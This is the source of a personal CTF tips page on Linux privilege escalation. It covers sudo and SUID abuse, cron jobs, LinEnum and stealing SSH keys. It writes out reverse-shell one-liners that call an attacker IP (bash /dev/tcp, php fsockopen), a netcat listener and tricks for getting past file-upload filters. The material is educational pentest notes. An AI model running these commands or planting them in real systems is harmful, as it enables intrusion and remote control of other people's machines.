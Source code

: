 ```yaml
---
layout: page
title: Privilege Escalation
subtitle: The MANY different ways to escalate privileges
image: /assets/fe.ico
description: The MANY different ways to escalate privileges
permalink: /tipsandtricks/privilegeescalation/
#hero_image: /assets/fe.ico
#hero_height: is-fullheight
---
```


# Introduction
Alrighty, so there's a lot that can be said here. I'm unsure how far into this I should go before I lose my mind alongside you, so this might be briefer than it could be. We'll see.
<br><br>
To better qualify the situation - privilege escalation implies you already have some type of access to a system, say through a basic end user that had a poor password. The following scenarios imply you already have a shell of some kind, and you are looking to further exploit that and get to the point where you are running the shell as an admin / root, or at least can execute commands as one.
<br><br><br>
# Let's start with sudo -l and SUID permissions
One of the go to commands once you've established yourself within a shell on a system is a quick `sudo -l`. It takes two seconds to type and another thirty seconds to check if anything from those results might be useful. What that does is list the commands that you can run as sudo, on a properly configured system this should be all but zero for normal users.
<br><br>
Let's say there is an improperly configured system that allows you to run `/usr/bin/less` with sudo rights. This could lead to you reading files that you should not have access to. The easiest way to discover if there is a way to exploit whatever is listed from the `sudo -l` command is to reference [gtfobins](https://gtfobins.github.io/). They have a _massive_ library of ways to bypass restrictions and escalate your privileges - their site will be referenced multiple times throughout my [CTF Exploits](/blog) page.
<br><br>
On a very similar note, we can use files that have the SUID permissions (can run files with the owner's privileges) to escalate our privileges. We can check what files like this exist by entering `find / -perm -u=s -type f 2>/dev/null`. This is very similar to any other find command, what this searches for are files that contain those SUID permissions. And again, if this returns you a list reference gtfobins for any known exploits from them.
<br><br><br>

# Uploading reverse tcp shells
There are numerous ways you can start a reverse shell, I've modified plugins for a blog, replaced a file that was used by a cronjob, there's a range of ways.
<br><br>
A great site for this is [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), as they offer some quick commands that, once edited for your IP address and port, can start those shells via bash, perl, python, php and other methods. They also have more material on that side beyond just how to start reverse shells, including stuff relating to SQL injection and more notes on John.
<br><br>
Back to the reverse shell side of things, let's use the example I mentioned with modifying the file used by the cronjob. Essentially I was able to edit in the following command to a cronjob that executed every minute, and what I appended to that file was the following:<br>
`bash -i >& /dev/tcp/10.18.91.219/8000 0>&1`<br><br>
While in another tab I had a netcat listener on that same port: `nc -lvnp 8000`
<br><br>
Basically what this two step process is saying is:<br>
- First, upload a reverse shell somehow, that will somehow be called (examples given here were as activated plugins or by a cronjob)
- And then second, you need to be listening on the same port that the reverse shell is trying to reach you at. When that command executes it will try to initiate that connection over port `8000` at my IP address of `10.18.91.219`. If I am not listening over that port I will miss the connection<br><br>

The other example was with the plugin, and although I forget exactly how it was worded, I do recall I was able to gain a foothold into their website editor and from there I could edit their plugins. I edited one of their already active plugins with something like:<br>
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`<br><br>
And then curled the location for that specific php plugin, which started the reverse shell, and my netcat listener was already waiting.<br><br>

There are many different ways you can initiate that reverse shell, it all comes down to what you have access to, what you should modify, and your permissions for those files.
<br><br><br>

# Upgrading / starting shells
Sometimes you might find that you have established a shell to a machine, but it is not the best or maybe not as stable as you would like. Some simple ways to do this include through python and perl, although there are more.
<br><br>
With python that would be:<br>
`python -c 'import pty;pty.spawn("/bin/bash")'`
<br><br>
Through perl:<br>
`perl -e 'exec "/bin/sh";'`
<br><br><br>

# Reoccuring jobs / tasks on machines
Also known as cronjobs, although there are different kinds. Sometimes these will run exploitable or editable tasks periodically. If you can find a way to change them directly, or resources / modules they interact with, this can be yet another way to gain access to more information or escalate your access. On most linux distributions you will find this at `/etc/crontab`. You can access this with a text editor or with `crontab -e`.
<br><br><br>

# LinEnum
This is another tool that can be found on GitHub, and can provide useful information on a target machine if you can get the permissions needed to run it. It does a lot of the things that are mentioned on this page automatically and generates a report for you to view later. Once you are on the machine you can get the file via wget or curl to the `/tmp` directory and work from there. The bash file is located [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).<br><br>
Note: You may or may not need to `chmod +x` that file to give yourself executable permissions on it.
<br><br><br>

# Other
Anytime you can find ssh keys, grab 'em. Reference the [bruteforcing](/tipsandtricks/bruteforcing/) page for ways to crack those and use them to your advantage.
<br><br>
As mentioned before, sometimes gaining that next foothold includes uploading e.g. php files to start a reverse tcp shell with yourself. However, depending where you upload they might restrict you to only certain types of files, or disallow certain types of files. Some ways to _maybe_ get around this is capitilize letters like .Php or .phP instead of .php, maybe see if it'll accept a .phtml file, etc. You get the idea. Security controls are meant to secure something otherwise not secure (duh), but that doesn't mean they account for everything, even if that means something as simple as denying file types by certain extensions only.

